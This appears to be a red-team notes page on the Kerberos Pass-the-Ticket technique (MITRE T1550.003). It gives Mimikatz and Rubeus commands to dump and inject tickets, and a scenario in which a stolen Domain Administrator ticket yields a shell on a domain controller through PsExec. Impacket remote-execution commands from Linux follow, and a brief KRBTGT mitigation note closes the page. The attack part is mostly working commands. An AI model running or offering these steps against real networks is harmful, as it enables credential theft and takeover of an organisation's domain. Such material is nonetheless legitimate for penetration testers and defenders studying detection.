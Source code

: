 ```yaml
---
description: https://attack.mitre.org/techniques/T1550/003/
---
```


# Pass the Ticket

**ATT\&CK ID:** [T1550.003](https://attack.mitre.org/techniques/T1550/003/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:green;">**User**</mark>

**Description**

Adversaries may "pass the ticket" using stolen Kerberos tickets to move laterally within an environment, bypassing normal system access controls. Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account's password. Kerberos authentication can be used as the first step to lateral movement to a remote system.

When preforming PtT, valid Kerberos tickets for Valid Accounts are captured by OS Credential Dumping. A user's service tickets or ticket granting ticket (TGT) may be obtained, depending on the level of access. A service ticket allows for access to a particular resource, whereas a TGT can be used to request service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges to access.

A Silver Ticket can be obtained for services that use Kerberos as an authentication mechanism and are used to generate tickets to access that particular resource and the system that hosts the resource (e.g., SharePoint).

A Golden Ticket can be obtained for the domain using the Key Distribution Service account KRBTGT account NTLM hash, which enables generation of TGTs for any account in Active Directory.

Adversaries may also create a valid Kerberos ticket using other user information, such as stolen password hashes or AES keys. For example, "overpassing the hash" involves using a NTLM password hash to authenticate as a user (i.e. Pass the Hash) while also using the password hash to create a valid Kerberos ticket.

[\[Source\]](https://attack.mitre.org/techniques/T1550/003/)

## Techniques

A scenario is shown further down this document in order to expand on the techniques shown below.

### Mimikatz

**Github (Binary):** [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

**Github (PowerShell):** [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Mimikatz.ps1)

```powershell
# Collect tickets
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Inject ticket
Invoke-Mimikatz -Command '"kerberos::ptt <.kirbi file>"'

# spawn CMD with the injected ticket
Invoke-Mimikatz -Command '"misc::cmd"'
```

### Empire

```bash
# PowerShell
powershell/credentials/rubeus

# C#
csharp/GhostPack/Rubeus
```

### Rubeus

**GitHub (Binary):** [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

**GitHub (PowerShell):** [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Rubeus.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module\_source/credentials/Invoke-Rubeus.ps1)

```bash
# Collect tickets
.\Rubeus.exe dump /nowrap

# Monitor for new tickets
.\Rubeus.exe monitor /interval:5 /nowrap

# Inject ticket kirbi file
.\Rubeus.exe ptt /ticket:<.kirbi file>

# Inject ticket base64 blob
.\Rubeus.exe ptt /ticket:<Base64Blob>
```

### PsExec

```bash
# To be used after injecting ticket with either Rubeus or Mimikatz
.\PsExec.exe -accepteula \\<IP> cmd
```

## Scenario

**Description**

In the following scenario we have gained access to the member server _Srv01.security.local_. Here, we are looking for opportunities to escalate privilege and move laterally in the environment.

We are currently running in the context of a local administrator account on Srv01.security.local and will be using `Rubeus` to collect Kerberos tickets.

**Collection**

```bash
# Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap
```

Whilst monitoring for incoming tickets the Domain Administrator (Moe) connects to Srv01 over RDP. During this process Moe's Kerberos ticket is stored on Srv01 and collected by `Rubeus`.

![](../../../../.gitbook/assets/rubeus-tgt.png)

`Rubeus` can then be used to inject the ticket into the current session.

```
.\Rubeus.exe ptt /ticket:<Base64Ticket>
```

![](../../../../.gitbook/assets/rubeus-ptt.png)

**Exploitation**

After a successful import we can then run `PsExec` and execute in the context of Moe on the Domain Controller _DC01.Security.local_.

```bash
# Psexec
.\PsExec.exe -accepteula \\<IP/Hostname> cmd
```

![](../../../../.gitbook/assets/rubeus-ptt-own.png)

We now have a command shell to the Domain Controller whilst working as the Domain Administrator.

## Using Kerberos tickets from Linux

**Note:** This section is a continuation on the above scenario.

### RubeusToCcache

**GitHub:** [https://github.com/SolomonSklash/RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)

Kerberos tickets extracted from Windows needs to be converted to `.Ccache` format for use within Linux.

```
python3 rubeustoccache.py <Base64Ticket> <Output.kirbi> <Output.ccache>
```

![](<../../../../.gitbook/assets/image (2) (1) (2) (1).png>)

Export the ticket to the Kerberos environmental variable:

```
export KRB5CCNAME=ticket.ccache
```

### Exploit

Once exported we can use `impacket` with the `-k` and `-no-pass` parameter to execute commands on the target Domain Controller.

```
psexec.py security.local/moe@DC01.security.local -k -no-pass
smbexec.py security.local/moe@DC01.security.local -k -no-pass
wmiexec.py security.local/moe@DC01.security.local -k -no-pass
```

![](<../../../../.gitbook/assets/image (170).png>)

## Mitigation

To contain the impact of a previously generated golden ticket, reset the built-in KRBTGT account password twice, which will invalidate any existing golden tickets that have been created with the KRBTGT hash and other Kerberos tickets derived from it. For each domain, change the KRBTGT account password once, force replication, and then change the password a second time. Consider rotating the KRBTGT account password every 180 days.

## Further Reading

**How To Attack Kerberos 101:** [https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
